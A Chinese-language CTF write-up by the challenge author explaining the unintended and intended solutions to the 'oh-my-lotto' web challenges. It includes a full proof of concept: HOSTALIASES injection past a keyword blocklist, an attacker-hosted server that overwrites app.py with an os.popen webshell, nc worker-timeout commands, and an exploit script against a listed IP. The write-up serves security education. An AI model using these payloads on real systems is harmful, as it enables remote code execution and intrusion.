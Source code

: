 # web-oh-my-lotto&revenge-ZH

## 写在前面的话

因为考虑不周全，这个题可能没给师傅们带来比较好的做题体验，实在抱歉，这里想就这个题给师傅们做一些解释。第一个题被非预期以后，在改revenge的时候思考了很多种方式，比如把`WGETRC`放到黑名单里面，或者是给附件用第一个题的flag加锁，但为了不泄露第一个题的解法，最终我还是选择不把`WGETRC`ban掉，只是把获取flag的方式限制为了必须要RCE才能获取，但同时也由于一些权限管理等问题，使得利用`WGETRC`同样可以解决revenge，这里确实是我没考虑周全，但确实也从师傅们的非预期学到了很多东西，下面我将还原一下我已知的非预期和预期解，希望能带给你新的知识。:)

## 非预期解

### oh-my-lotto

* 利用`WGETRC`设置`http_proxy`代理到自己服务器，下载一个和`forecast`一样的文件，可以获得flag。

* 首先获得一次lotto的结果，然后将这个结果作为forecast上传，利用`PATH`，将新的`lotto_result.txt`保存到其他路径，这样获取到的lotto就能与forecast相等，即可获得flag。

### oh-my-lotto-revenge

* 利用`WGETRC`配合`http_proxy`和`output_document`，覆盖本地的wget应用，然后利用wget完成RCE。

* 利用`WGETRC`配合`http_proxy`和`output_document`，写入SSTI到templates目录，利用SSTI完成RCE。

## 预期解

根据附件可以在本地搭建题目运行环境，根据源码中`app.py`所述逻辑，当上传的`forecast.txt`文件内容与`lotto_result.txt`文件内容相符时，可以获得flag，lotto容器中生成`lotto_result.txt`使用的是`secrets`库，该库函数使用安全的随机数生成方法，理论上不存在被预测的风险。

发现在进行lotto猜测的时候可以运行输入一次环境变量，该环境变量会被传递给`os.system('wget --content-disposition -N lotto')`，同时环境变量会经过`safe_check`函数检查

```
def safe_check(s):
    if 'LD' in s or 'HTTP' in s or 'BASH' in s or 'ENV' in s or 'PROXY' in s or 'PS' in s:
        return False
    return True
```

一些常见的环境变量利用方法都已经被禁止，通过翻阅Linux环境变量文档`http://www.scratchbox.org/documentation/general/tutorials/glibcenv.html`在Network Settings中发现有`HOSTALIASES`可以设置shell的hosts加载文件，利用`/forecast`路由可以上传待加载的hosts文件，将`wget --content-disposition -N lotto`发向lotto的请求转发到自己的域名例如如下hosts文件

```
# hosts
lotto mydomain.com
```
同时注意到wget请求添加了`--content-disposition -N`参数，说明请求的保存文件名将由服务方提供方指定的文件名决定，并可以覆盖原有的文件，那我们在自己的`mydomain.com`域名的80端口提供一个文件下载的功能，将返回文件名设置为`app.py`就可以覆盖当前题目的`app.py`文件，参考POC

```
from flask import Flask, request, make_response
import mimetypes

app = Flask(__name__)

@app.route("/")
def index():

    r = '''
from flask import Flask,request
import os


app = Flask(__name__)
@app.route("/test", methods=['GET'])
def test():
    a = request.args.get('a')
    a = os.popen(a)
    a = a.read()
    return str(a)

if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
'''

    response = make_response(r)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=app.py'
    return response



if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
```

此时发现已经覆盖了题目的`app.py`，但并不能直接RCE，因为题目使用gunicorn部署，`app.py`在改变的情况下并不会实时加载。但gunicorn使用一种`pre-forked worker`的机制，当某一个worker超时以后，就会让gunicorn重启该worker，让worker超时的的POC如下

```
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000
```

最终worker重新加载`app.py`，就可以完成RCE了，读取flag即可。参考完整POC如下


```
# exp.py

import requests
import os
import time
import subprocess

s = requests.session()

base_url = 'http://124.223.208.221:53000/'
url_upload = base_url + 'forecast'
proxies = {
    'http': 'http://127.0.0.1:8080'
}

r = s.post(url=url_upload, proxies=proxies, files={"file":("hosts", open('hosts', 'rb'))})
print(r.text)

url_env = base_url + 'lotto'
data = {
    'lotto_key': 'HOSTALIASES',
    'lotto_value': '/app/guess/forecast.txt'
}
r = s.post(url=url_env, data=data)

subprocess.Popen('./exploit.sh', shell=True)
# os.system('./exploit.sh')
for i in range(1, 53):
    print(i)
    time.sleep(1)

while True:
    url_shell = base_url + 'test?a=env'
    print(url_shell)
    r = s.get(url_shell)
    print(r.text)
    if '*ctf' in r.text:
        print(r.text)
        break
```
